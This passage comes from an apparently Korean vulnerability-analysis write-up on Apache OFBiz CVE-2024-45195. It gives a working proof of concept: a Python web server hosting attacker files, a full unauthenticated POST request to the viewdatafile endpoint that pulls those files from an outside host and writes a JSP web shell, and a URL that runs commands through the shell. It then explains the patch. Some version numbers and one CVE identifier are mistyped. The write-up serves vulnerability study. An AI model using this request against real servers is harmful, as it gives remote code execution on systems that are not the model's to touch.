

이후 python 을 이용하여 해당 경로를 80포트로 리스닝하는 웹 서버를 실행합니다.

```xml
python -m http.server 80
```



## viewdatafile 요청

이후 다음의 요청 패킷을 Apache OFBiz 프레임워크 18.14.15 버전에 요청을 수행합니다.

```xml
POST /webtools/control/main/viewdatafile HTTP/1.1
Host: localhost:8443
Content-Type: application/x-www-form-urlencoded
Content-Length: 241

DATAFILE_LOCATION=http://<서버주소>:80/test.csv&DATAFILE_SAVE=./applications/accounting/webapp/accounting/index.jsp&DATAFILE_IS_URL=true&DEFINITION_LOCATION=http://<서버주소>:80/test.xml&DEFINITION_IS_URL=true&DEFINITION_NAME=rce
```



위 요청이 정상적으로 처리 되었으면, 공격자 서버 로그에서 `test.xml`, `test.csv` 파일에 대한 접근 로그를 확인할 수 있습니다.



## 웹쉘 확인

Apache OFBiz 애플리케이션에 웹 쉘이 저장 되었는지, 아래의 URL 요청을 이용하여 확인합니다.

```xml
https://localhost:8443/accounting/index.jsp?cmd=ls -al
```



# Patch

이번 `CVE-2024-45195` 취약점은 이전에 발생한 세 가지 취약점(`CVE-2024-32113`, `CVE-2024-36104`, `CVE-2204-38856`)과 동일하게 URI 처리 메커니즘에서 컨트롤러와 뷰의 매핑 처리과정에서 발생하는 잘못된 인증 처리로 인해 발생되었습니다.

이에 대한 내용은 Apache OFBiz 프레임워크 버전 18.15.16에서 뷰 렌더링 시 권한을 검사하는 방식으로 패치된 것을 확인할 수 있습니다.

> [https://github.com/apache/ofbiz-framework/compare/release18.12.15...release18.12.16](https://github.com/apache/ofbiz-framework/compare/release18.12.15...release18.12.16)
> 



따라서, 패치된 버전 18.15.16 에서 `CVE-2024-45195` 취약점의 PoC를 수행할 경우, 다음과 같이 로그인이 필요하다는 에러 메시지를 받게됩니다.



# Continue…

다음은 다섯 번째 CVE 취약점인 [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-45507 (6/7)](/Apache%20OFBiz%201-Day%20Analysis/06.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-45507/README.md) 에 대해 알아보겠습니다.

---

# References

- https://issues.apache.org/jira/browse/OFBIZ-13130
- https://www.rapid7.com/blog/post/2024/09/05/cve-2024-45195-apache-ofbiz-unauthenticated-remote-code-execution-fixed/
- https://github.com/apache/ofbiz-framework/blob/3bee351e39dc5d99f40081b3c5bfa365d787ed6e/framework/datafile/src/docs/asciidoc/datafiles.adoc#L70